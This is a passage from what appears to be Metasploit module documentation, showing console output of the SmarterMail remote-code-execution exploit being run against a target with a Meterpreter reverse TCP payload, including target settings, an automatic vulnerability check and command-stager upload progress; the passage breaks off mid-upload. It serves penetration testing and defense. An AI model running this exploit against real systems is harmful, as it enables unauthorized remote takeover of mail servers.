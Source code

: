 ```
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```

* Using TARGET 1 - x86/x64 Windows CmdStager:

```
msf6 > use exploit/windows/http/smartermail_rce
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/smartermail_rce) > set TARGET 1
TARGET => 1
msf6 exploit(windows/http/smartermail_rce) > set RHOSTS 192.168.29.1
RHOSTS => 192.168.29.1
msf6 exploit(windows/http/smartermail_rce) > set LHOST eth0
LHOST => eth0
msf6 exploit(windows/http/smartermail_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response...
[+] Target is running SmarterMail.
[*] Checking SmarterMail product build...
[+] Target is running SmarterMail Build 6970.
[+] The target appears to be vulnerable.
[*] Command Stager progress -   2.01% done (2046/101881 bytes)
[*] Command Stager progress -   4.02% done (4092/101881 bytes)
[*] Command Stager progress -   6.02% done (6138/101881 bytes)
[*] Command Stager progress -   8.03% done (8184/101881 bytes)
[*] Command Stager progress -  10.04% done (10230/101881 bytes)
[*] Command Stager progress -  12.05% done (12276/101881 bytes)
[*] Command Stager progress -  14.06% done (14322/101881 bytes)
[*] Command Stager progress -  16.07% done (16368/101881 bytes)
[*] Command Stager progress -  18.07% done (18414/101881 bytes)
[*] Command Stager progress -  20.08% done (20460/101881 bytes)
[*] Command Stager progress -  22.09% done (22506/101881 bytes)
[*] Command Stager progress -  24.10% done (24552/101881 bytes)
[*] Command Stager progress -  26.11% done (26598/101881 bytes)
[*] Command Stager progress -  28.12% done (28644/101881 bytes)
[*] Command Stager progress -  30.12% done (30690/101881 bytes)
[*] Command Stager progress -  32.13% done (32736/101881 bytes)
[*] Command Stager progress -  34.14% done (34782/101881 bytes)
[*] Command Stager progress -  36.15% done (36828/101881 bytes)
[*] Command Stager progress -  38.16% done (38874/101881 bytes)
[*] Command Stager progress -  40.16% done (40920/101881 bytes)
[*] Command Stager progress -  42.17% done (42966/101881 bytes)
[*] Command Stager progress -  44.18% done (45012/101881 bytes)
[*] Command Stager progress -  46.19% done (47058/101881 bytes)
[*] Command Stager progress -  48.20% done (49104/101881 bytes)
[*] Command Stager progress -  50.21% done (51150/101881 bytes)
[*] Command Stager progress -  52.21% done (53196/101881 bytes)
[*] Command Stager progress -  54.22% done (55242/101881 bytes)
[*] Command Stager progress -  56.23% done (57288/101881 bytes)
[*] Command Stager progress -  58.24% done (59334/101881 bytes)
[*] Command Stager progress -  60.25% done (61380/101881 bytes)
[*] Command Stager progress -  62.25% done (63426/101881 bytes)
[*] Command Stager progress -  64.26% done (65472/101881 bytes)
[*] Command Stager progress -  66.27% done (67518/101881 bytes)
[*] Command Stager progress -  68.28% done (69564/101881 bytes)
[*] Command Stager progress -  70.29% done (71610/101881 bytes)
[*] Command Stager progress -  72.30% done (73656/101881 bytes)
[*] Command Stager progress -  74.30% done (75702/101881 bytes)
```